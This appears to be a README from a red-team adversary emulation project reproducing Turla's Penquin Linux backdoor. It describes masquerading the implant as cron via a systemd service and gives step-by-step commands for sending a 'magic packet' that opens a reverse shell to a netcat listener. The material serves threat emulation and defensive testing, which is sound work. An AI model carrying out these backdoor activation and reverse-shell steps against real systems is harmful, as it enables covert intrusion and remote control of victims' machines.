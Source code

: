     ```

    >
    >### Context for Implementation of cron
    >Based on the [Leonardo Report](https://www.leonardo.com/documents/20142/10868623/Malware+Technical+Insight+_Turla+“Penquin_x64”.pdf) and [Presentation](https://www.youtube.com/watch?v=JXsjRUxx47E&t=647s), Penquin deploys a legitimate version of the Linux utility `cron` and executes `cron` as a child process of Penquin. However, reporting was unclear on the series of events between Penquin’s initial execution and the execution of `cron`. To address this gap, Red Team developers hypothesized the below process tree was the objective of deploying `cron`, [Masquerading](https://attack.mitre.org/techniques/T1036/) Penquin as real cron. In order to provide this process tree, we leveraged the [Create or Modify System Process: Systemd Service](https://attack.mitre.org/techniques/T1543/002/) technique to execute Penquin. 
        
    **Target Process Tree**
    
        - init
        -- systemd
        --- cron (our evil cron; listens for activation packets)
        ---- cron (real Linux cron utility; does cron things)

    <br/>

1. Verify the socket is actively listening. 
    ```
    ss -l -a -n -p | grep "cron"
    ```
    `p_raw` is where our evil cron is listening.

    Results should look like...
    ```zsh
    p_raw   UNCONN  0   0   *:eth0  *   users:(("cron",pid=1071197,fd=3))            
    ```
<br/>
<br/>

## Activation Packet (AKA Magic Packet)
---
#### On Attacker Host

These steps assume sniff.c(compiled) is already running on the victim host. On the attacker host, start a listener and execute this script. This script sends a crafted packet to the victim host activating a reverse shell connecting to the listener. 

1. Install all [requirements](requirements.txt)
    ```
    pip install -r requirements.txt
    ```
1. In a terminal window, set up a `netcat` listener. Using `8081` ensures we are not conflicting with other listeners in this scenario. 
    ```
    nc -lvvp 8081
    ```
1. Open a second terminal window and navigate to the `/turla/Resources/Penquin` directory. Execute the `sendPacket.py` script. Update IPs/ports as needed - Penquin currently sniffs on all ports on the victim machine for the magic packet. Port `8080` is used based on [Lab52's report](https://lab52.io/blog/looking-for-penquins-in-the-wild/).
    ```
    sudo -E python3 sendPacket.py --handler_ip 10.0.2.8 --handler_port 8081 --target_ip 10.0.1.6 --target_port 8080 --payload_type base64
    ```
1. You will see the packet info in the terminal screen + the hexdump of the packet. The terminal output `Sent 1 packets` confirms the packet was successfully sent. 
1. Check the terminal window with the netcat listener, the reverse shell should be running inside the victim's `/root` directory. 
